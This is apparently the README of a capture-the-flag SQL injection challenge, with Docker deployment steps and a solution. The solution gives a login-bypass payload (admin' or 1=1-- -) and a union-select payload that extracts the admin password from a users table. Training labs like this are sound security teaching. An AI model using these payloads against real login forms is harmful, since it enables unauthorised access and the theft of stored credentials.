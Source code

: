 Description: Admin has everything you want

PS: The admin’s password is the flag.. 

### Deployment

```sh
git clone https://github.com/aswinmguptha/mwade-challenges/
cd mwade-challenges/Union/src
docker build .
docker run -dp 80:5000 <docker image id>
```

Visit [http://localhost](http://localhost)

### Solution
To bypass login,

	username: admin' or 1=1-- -
	password: 

To perform union injection attack and retrieve admin's password:

	 username: admin
	 password: ' union select password from users -- -
